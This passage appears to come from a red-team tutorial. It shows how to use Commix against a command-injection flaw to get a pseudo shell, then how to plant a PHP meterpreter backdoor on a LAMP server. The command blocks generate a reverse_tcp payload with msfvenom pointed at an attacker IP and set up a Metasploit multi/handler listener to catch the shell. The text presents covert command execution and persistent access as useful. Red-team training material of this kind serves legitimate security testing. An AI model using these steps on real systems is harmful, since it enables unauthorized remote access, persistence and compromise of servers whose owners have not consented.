 When the provided URL is tested with Commix, the tool will scan for command injection vulnerabilities. In this instance, if a vulnerability is detected, the user will be prompted with the option to obtain a pseudo-terminal shell. This can be seen in the screenshot below.

![](../../assets/img/redteam/ld5.png)

Upon answering "yes," Commix will present a pseudo shell that allows you to run arbitrary commands, as illustrated in the screenshot below.

![](../../assets/img/redteam/ld6.png)

Executing commands covertly on the target system can be very useful during red team engagements.

# Uploading A PHP Backdoor With Commix
--------------------------------------

Given that the target server is running the LAMP stack, we can create a PHP meterpreter payload and upload it to the web server as a backdoor with Commix that we can then use to gain access to the target system whenever required.

The first step will involve generating the PHP meterpreter payload with Msfvenom, this can be done by running the following command:

```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.2.2
```

After generating the payload using Msfvenom, you need to modify it to ensure that the PHP tags are added for the script to execute correctly. Here's an example screenshot illustrating this step.

![](../../assets/img/redteam/ld7.png)

By executing the subsequent commands, it is possible to configure the listener using Metasploit:

```bash
msfconsole
```

```bash
msf> use multi/handler
```

```bash
msf> set payload php/meterpreter/reverse_tcp
```

```bash
msf> set LHOST <KALI-IP>
```

```bash
msf> set LPORT <PORT>
```

```bash
msf> run
```
